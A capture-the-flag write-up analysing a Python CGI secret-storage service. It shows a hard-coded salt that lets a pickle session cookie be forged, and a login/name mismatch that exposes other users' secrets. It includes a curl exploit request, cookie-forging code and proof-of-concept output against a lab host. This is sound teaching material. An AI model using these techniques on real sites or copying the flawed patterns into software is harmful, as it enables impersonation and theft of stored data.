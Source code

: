 # N4w Secrets

## Description

> Password-protected secret storage service for the web.

This service was created by the team *Noobs4Win*. It's a Python CGI website
used to store secrets of every registered users.

It's a very simple website where you can sign up (and obviously sign in later)
and then save a secret. A page allows to retrieve all saved secrets of the
logged in user.

The different pages are accessible from `index.cgi` using the request parameter
`action`. It can be among these 5 values: `default`, `signin`, `signup`,
`addsecret`, `logout`. They are pretty self-explanatory, but if none is given,
`default` is chosen.

It uses a sqlite database to store the list of users, and their associated
secrets. One possible issue to notice is the way users are stored:
```python
self.__cursor.execute('INSERT INTO users (name, login, password) VALUES (?, ?, ?)', (name, login, password))
```
Their password is not digested or ciphered, what means it may be retrieved and
used to log in as the flag user.

### Flag

Flag Description:

> Flags are identified by the user name.


When you register, you must provide a login, a password and your name. The
later is thus the *flag_id*. However, the *set_flag* script uses the same
string for both the login and the name.


## Vulnerabilities

As the service is relying on a sqlite database, maybe a SQL injection can be
found. But actually, all queries are prepared:
```python
self.__cursor.execute('SELECT * FROM users WHERE login=(?)', (login,))
self.__cursor.execute('INSERT INTO users (name, login, password) VALUES (?, ?, ?)', (name, login, password))
self.__cursor.execute('SELECT * FROM secrets WHERE name=(?)', (self.__storage['name'],))
self.__cursor.execute('INSERT INTO secrets (name, login, content) VALUES (?, ?, ?)', (self.__storage['name'], self.__storage['login'], content))
```

Thus, next step is to read the source code to try to locate vulnerabilities.
Two of them directly pop up.

### Weak crypto

This first one is located in the `Session` class in `cgiapp.py`. The class
relies on the *Pickle* module of Python to store the user's session information
inside the `session` cookie. *Pickle* is a well-known Python module used to
serialize objects but which brings huge security issues if its input can be
controlled by the user (actually, it's possible for an attacker to execute any
Python code).

```python
session = pickle.dumps(self.__sessionStorage)
checksum = sha.new(session + self.__salt).hexdigest()
session = session.encode('hex')
cookie = checksum + session
return 'Set-Cookie: session=%s;' % cookie
```

Hopefully, the session information is prepended with a salted digested
checksum. Similarly, when retrieving the session, this checksum is firstly
verified before *Pickle* loads it.

```python
session = Cookie(environ.get('HTTP_COOKIE')).get('session').value
if not session:
        raise
if len(session) < 40:
        raise
if len(session) % 2 != 0:
        raise
for c in session:
        if c not in '0123456789abcdef':
                raise
checksum, session = session[:40], session[40:].decode('hex')
if sha.new(session + salt).hexdigest() != checksum:
        raise
self.__sessionStorage = pickle.loads(session)
```

We can barely craft a fake session cookie without this salt. Let's track where
this salt comes from.

```python
class Session():
	def __init__(self, salt):
		self.__salt = salt
```

```python
class Application():
	def __init__(self):
		cgitb.enable(context=100)
		self.actions = {}
		self.storage = Storage()
		self.session = Session(salt='f72f460da5376c477543ae78533892b5')
```

So the salt is hard-coded, and well known: `f72f460da5376c477543ae78533892b5`.

### Login and name mismatch

The other issue which pops up immediatly is located in the SQL queries. To
register a user, the script `user.py` first checks if a user with the same
`login` is registered. If not, the user is added to the database.

```python
self.__cursor.execute('SELECT * FROM users WHERE login=(?)', (login,))
user = self.__cursor.fetchone()
# Sign up
if login and password and name:
        if user:
                raise UserAlreadyExistsException()
        self.__cursor.execute('INSERT INTO users (name, login, password) VALUES (?, ?, ?)', (name, login, password))
        self.__connection.commit()
        self.__storage = {
                'name': name,
                'login': login
        }
```

However, to retrieve the secrets, it fetches all secrets from the database
where the `name` matches the user's one.

```python
self.__cursor.execute('SELECT * FROM secrets WHERE name=(?)', (self.__storage['name'],))
secrets = []
for secret in self.__cursor.fetchall():
        secrets.append(secret[2])
return secrets
```


## Proof of Concept

We know two simple vulnerabilities which can be exploited.

### Manual PoC

We'll use only the later vulnerability for this part as it's very easy to
exploit it. The *flag_id* we want to retrieve is `fbc634d0b48428b0588a`.

We only need to create a new user whose name would be the *flag_id*. Let's
use the *login* and *password* `toto` with the *name* `fbc634d0b48428b0588a`.

```bash
$ curl -X POST -d 'action=signup&login=toto&password=toto&name=fbc634d0b48428b0588a' http://192.168.56.101:20120/

<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<title>Secret storage | Profile</title>
		<link rel="stylesheet" href="http://yui.yahooapis.com/pure/0.6.0/pure-min.css">
	</head>
	<body style="width: 500px; margin: auto; padding-top: 10px;">
<form class="pure-form pure-form-stacked" method="post">
	<span style="font-size: 20px; display: inline-block;" class="pure-input-2-3">Hello, fbc634d0b48428b0588a!</span>
	<input type="hidden" name="action" value="logout">
    <button style="display: inline" type="submit" class="pure-button pure-button-danger pure-input-1-3">Logout</button>
</form>
<div style="font-size: 20px; margin-top: 20px; padding-top: 20px; border-top: 1px solid #eee;">
    You can add some secrets:
</div>

<form class="pure-form pure-form-stacked" method="post">
    <fieldset>
        <textarea placeholder="Secret content" class="pure-input-1" name="content"></textarea>
        <input type="hidden" name="action" value="addsecret">
        <button type="submit" class="pure-button pure-button-primary pure-input-1-3">Add</button>
    </fieldset>
</form>
<div style="font-size: 20px; margin-top: 20px; border-bottom: 1px solid #eee;"></div>
<div style="font-size: 20px; margin-top: 20px;">
    Your secrets:
</div>
<p class="content">FLGeH0dcR2MBfdEE</p>
	</body>
</html>
```

The response includes one very interesting thing at the end:
```html
<p class="content">FLGeH0dcR2MBfdEE</p>
```

As a picture worths thousand words, here is the response in a browser:

![Page with a flag][flag_page]


### Automated PoC

The script [poc_name.py][poc_name] uses the same principle as previously to get
the flag, so it won't be explained once again.

The script [poc_pickle.py][poc_pic], uses the first vulnerability on weak
crypto. We first craft a fake cookie, using the hard-coded salt, to impersonate
the user of the *flag*. 

```python
session = pickle.dumps({'login': flag_id, 'name': flag_id})
checksum = sha.new(session + _SALT_).hexdigest()
session = session.encode('hex')
cookie = checksum + session
```

Then we only need to ask for the default page to retrieve the flag.

```bash
$ ./poc_name.py 192.168.56.101 20120 84bbed828259cbe9d273
FLG0kJFsFPI8Uxml
```

```bash
$ ./poc_pickle.py 192.168.56.101 20120 84bbed828259cbe9d273
FLG0kJFsFPI8Uxml
```


[poc_name]: poc_name.py
[poc_pic]: poc_pickle.py
[flag_page]: assets/flag_page.png

